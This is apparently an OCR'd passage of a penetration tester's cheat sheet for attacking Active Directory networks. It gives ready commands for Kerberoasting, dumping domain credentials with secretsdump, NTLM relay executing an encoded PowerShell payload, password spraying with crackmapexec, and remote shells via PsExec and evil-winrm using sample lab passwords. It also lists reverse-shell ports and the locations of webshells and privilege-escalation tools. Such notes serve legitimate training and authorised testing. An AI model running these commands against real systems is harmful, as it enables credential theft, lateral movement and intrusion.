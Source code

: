    - GetUserSPNs: Retrieve Kerberos service account hashes that can be cracked offline (**Kerberoasting attack**)    
     `impacket-GetUserSPNs -request -dc-ip <DC> corp.com/<domain_user>`
   - secretsdump: dump credentials (local or domain)  
     `impacket-secretsdump -just-dc-user <user> corp.com/<admin>:"<Password>"@<targetDomain>` #NTLM hash of user
     `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL` #backup copies of DC files (ntds.dit + SYSTEM hive)
   - ntlmrelayx: Relay captured NTLM auth to another host  
     `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.139.212 -c "powershell -enc JABjAGw...`
   - mssqlclient  
     `impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`
5. **crackmapexec**: SMB / AD enumeration & attacks  
   - `kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success`
6. PsExec: Remote execution with admin  
   - `PS C:\Tools\SysinternalsSuite> .\PsExec64.exe -i \\<DC1> -u corp\<user> -p <password> cmd`  
   - `PS C:\tools\SysinternalsSuite> .\PsExec.exe \\<DC1> cmd`  
   - `C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe`
8. WinRM: Remote shell via WinRM  
   - evil-winrm -i 192.168.145.220 -u daveadmin -p "qwertqwertqwert123\!\!"  
   - `Enter-PSSession -ComputerName <CLIENTWK220> -Credential $cred`
      ```
      PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
      PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
      PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
      PS C:\Users\dave> Stop-Transcript
      ```
9. nmap: Port / service scanning  
    - `nmap -sC -sV -p- <target>`  
10. enum4linux: Linux AD / SMB enumeration  
    - ·enum4linux -a <target>·
      
**Ports open**
- Kali port:
  - 80, 443, 53 (reverse shell). Second choice: 4444, 1234 (firewall might block)  
   - 8080 (burp suite)
   - 8888 (WebDAV shared)
   - 8000 (Powercat/Python)

# Kali built in wordlist and payloads
- Password wordlists
  - ❗`/usr/share/wordlists/rockyou.txt`
  - /usr/share/wordlists/test_small_credentials.txt
  - /usr/share/wordlists/fasttrack.txt  
- Gobuster directory wordlists
  - ❗`/usr/share/wordlists/dirb/common.txt`
  - /usr/share/wordlists/dirb/big.txt
  - /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
  - /usr/share/wfuzz/wordlist/general/megabeast.txt
  - /usr/share/wordlists/dirb/others/names.txt    
- hashcat
  - ❗`/usr/share/hashcat/rules/best64.rule`
  - /usr/share/hashcat/rules/rockyou-30000.rule
- webshells
  - ❗`/usr/share/webshells/php/simple-backdoor.php`
  - /usr/share/webshells/aspx/cmdasp.aspx
- post-exploitation/privilege escalation
  - /usr/share/peass/winpeas/winPEASx64.exe
  - /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
  - /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1  